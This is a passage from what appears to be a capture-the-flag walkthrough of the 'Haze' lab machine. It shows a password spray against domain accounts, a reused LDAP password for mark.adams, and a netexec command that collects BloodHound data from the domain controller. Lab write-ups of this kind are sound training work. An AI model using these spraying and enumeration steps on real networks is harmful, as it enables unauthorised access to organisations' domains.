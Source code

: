 ```bash
SMB         10.129.228.118  445    DC01             [-] haze.htb\Splunk_Admins:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Backup_Reviewers:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Splunk_LDAP_Auth:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Haze-IT-Backup$:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\Support_Services:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
```

We found credentials for `mark.adams` reusing the same password.

`mark.adams:Ld@p_Auth_Sp1unk@2k24`

Let's collect bloodhound data.

```bash
nxc ldap haze.htb -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' --bloodhound -c all --dns-server 10.129.228.118

LDAP        10.129.228.118  389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.129.228.118  389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24
LDAP        10.129.228.118  389    DC01             Resolved collection methods: dcom, rdp, group, localadmin, session, trusts, psremote, objectprops, acl, container
[09:08:25] ERROR    Unhandled exception in computer dc01.haze.htb processing: The NETBIOS connection with the remote host timed out.                                                             computers.py:268LDAP        10.129.228.118  389    DC01             Done in 00M 49S
LDAP        10.129.228.118  389    DC01             Compressing output into /root/.nxc/logs/DC01_10.129.228.118_2025-03-30_090736_bloodhound.zip
```

We can see that `mark.adams` is part of `Remote Management` so we can `WinRM`.